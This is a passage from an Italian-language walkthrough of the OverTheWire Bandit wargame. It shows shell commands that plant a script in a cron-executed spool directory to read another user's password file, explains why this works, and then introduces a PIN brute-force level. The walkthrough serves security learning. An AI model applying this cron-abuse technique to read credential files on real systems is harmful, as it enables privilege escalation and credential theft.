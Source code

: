 ```bash
#   rm -f ./$i
# done

# creare una working dir temporanea
mktemp -d
cd /tmp/tmp.XXXXXX

# preparare lo script che verrà eseguito dal cron
cat > bandit24.sh <<'EOF'
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.XXXXXX/passwd_bandit24
EOF

chmod +x bandit24.sh

# copiare lo script nella directory controllata dal cron (richiede permessi scrivibili dall'utente)
cp bandit24.sh /var/spool/bandit24/foo/

# dopo che il cron esegue lo script, leggere il file temporaneo
cat /tmp/tmp.XXXXXX/passwd_bandit24
# → [REDACTED]
```

### 🧠 Spiegazione
- Il job cron legge ed esegue ogni file presente in `/var/spool/<utente>/foo`. Lo script controlla l'owner del file e, se corrisponde all'utente previsto (qui `bandit23`), lo esegue con `timeout` per evitare processi bloccati.  
- Poiché lo script è cancellato dopo l'esecuzione (`rm -f ./$i`), è fondamentale mantenere una copia locale se vuoi ri-eseguirlo o analizzarlo.  
- L'idea è sfruttare il fatto che lo script verrà eseguito con i permessi di `bandit24` e quindi potrà leggere `/etc/bandit_pass/bandit24` e scriverne il contenuto in un file temporaneo con permessi leggibili.

### 🪄 Takeaway
- Cron jobs che eseguono script trovati in directory pubbliche sono vettori comuni per escalation o per ottenere dati sensibili: attenzione a cosa si può scrivere in quelle directory.  
- Quando lo script viene rimosso automaticamente dal job, salva una copia locale (ad esempio `cp bandit24.sh ~/bandit24.sh`) prima di copiarlo nella directory del cron.  
- `timeout` è usato per limitare l'esecuzione — utile quando non si conosce il comportamento dello script eseguito.  
- Non lasciare script o file con permessi insicuri in directory pubbliche; in questo esercizio lo sfruttiamo appositamente per ottenere la password.

---

## 🔹 Livello 24 → 25

### 🎯 Obiettivo
Interagire con un **daemon** in ascolto su `localhost:30002` che, se riceve la password corrente e un pincode a 4 cifre corretti (in una singola riga separati da uno spazio), restituisce la password del livello successivo. L'unico modo per scoprire il pincode è provare tutte le 10.000 combinazioni (0000–9999).
